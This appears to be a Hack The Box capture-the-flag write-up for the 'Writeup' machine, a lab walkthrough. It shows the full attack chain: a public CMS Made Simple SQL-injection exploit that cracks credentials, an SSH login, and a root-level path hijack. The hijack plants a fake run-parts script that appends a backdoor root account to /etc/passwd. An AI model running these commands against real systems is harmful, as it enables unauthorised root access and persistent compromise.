 # HTB-Writeup
<img src="https://www.hackthebox.eu/badge/image/172381" alt="Hack The Box">

Box: Writeup  
IP: 10.10.10.138

Browsing to ```http://10.10.10.138/``` we see a warning about an 'Eeyore DoS protection script' so we probably shouldn't do any dirbusting.

The ```/robots.txt``` file has a disallow in place for ```/writeup/``` so of course we'll want to check that out. 

The source code for ```http://10.10.10.138/writeup/``` shows the website is using CMS Made Simple. Running ```searchsploit CMS Made Simple``` shows a lot of results so we need to find out what version we're up against if we want to skid through. The copyright from the source code says 2019 so doing some searching indicates that 2.2.9 or 2.2.10 are the only versions released in that year. This seems like a safe starting point.

With a bit of research, and help from searchsploit, we see that CVE-2019-9053 is a SQL Inject vuln for 2.2.10 with an exploit already available in python. We'll try this one out, but always a good idea to read the source code first though to see what we're doing.

First we can tell that it's written in Python2, but we also want to know what the actual attack is. Looking at ```payload=``` we can see it's a blind time-based SQL injection attack. A good indicator of this is the included ```sleep()``` function. There is also a function to crack the hash once obtained, so we'll give that a shot before trying hashcat. The cracking functionality seems pretty straightforward, running through a provided list using a salt+pw format. I'm going to use the rockyou list for this since everyone should already have a copy.

Let's try the exploit: ```python 46635.py -u http://10.10.10.138/writeup/ --crack -w rockyou.txt```


Password found and cracked!

```
[+] Salt for password found: *****
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: *****
[+] Password cracked: *****
```
*I removed the password, salt, and hash so I don't spoil all of the fun*


Now let's use this to SSH into the box ```ssh jkr@10.10.10.138```

Success, user account owned, so let's grab our first flag ```cat user.txt```

Always a good idea to get some basic ```id``` info to start, so we'll do that and save the information for later.

```uid=1000(jkr) gid=1000(jkr) groups=1000(jkr),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),50(staff),103(netdev)```

One thing to note though is the staff membership. In Debian this allows local modification to the system, so may be useful!

Ok so owning user was easy but now we need to get root. There is a great tool called ```pspy``` that we'll use for deeper analysis. It sets up inotify FileSystemWatchers to scan ```/proc/``` and also watch ```/usr``` for short-lived processes. This is a really great enumaration tool to have in your arsenal for path injection and privilege escalation vulns.

We'll copy pspy over to the server so we can use it ```scp pspy32 jkr@10.10.10.138:/home/jkr```  

Once it's on the server we'll need to make it executable ```chmod +x pspy32```

Then we'll launch it to monitor what's going on ```./pspy32```

Start a new SSH session so we can monitor that action first. It's always a good idea to make sure both terminals are viewable so you can see new processes as they happen.

After playing around a bit we can see that after every successful SSH auth the following is run:

```sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new```

Let's go down the rabbit hole and see if we can abuse it. First of all we can see that something called ```run-parts``` gets executed every time. We can also see that it's being executed by relative path so we can probably hijack this.

If we dig deeper with ```which run-parts``` we see that by default it's in ```/bin/```, but if you look closely at the way env sets the path at login you'll see something interesting. When the path is set, ```/usr/local/bin``` is called before ```/usr/bin``` 

We saw earlier that our account was a member of staff, which we can see gives us the write access we need ```find / -group staff 2>/dev/null```

This means that we should be able to put our code in ```/usr/local/bin``` and have it execute next time we SSH into the box.

Time for some path injection.

Let's create a bash script that adds a new root user, then have that execute.

First we will use openssl to create a hash of our desired password ```openssl passwd writeup```

Now create the bash file, add our payload, and make it executable.

```cd /usr/local/bin/```

Create the hijack file: ```nano run-parts```

Add our payload text:
```
#!/bin/bash
echo 'rooot:qzhFLYLV9Mkkg:0:0:root:/root:/bin/bash' >> /etc/passwd
```

And make it executable: ```chmod +x run-parts``` 

Now start a new SSH session to trigger our script, and check the results with ```cat /etc/passwd```

You should see our new ```rooot``` user added with the correct UID and hash, so let's grab the flag.

```
su rooot
cd /root/
cat root.txt
```


"The only way of discovering the limits of the possible is to venture a little way past them into the impossible" - Arthur C. Clarke
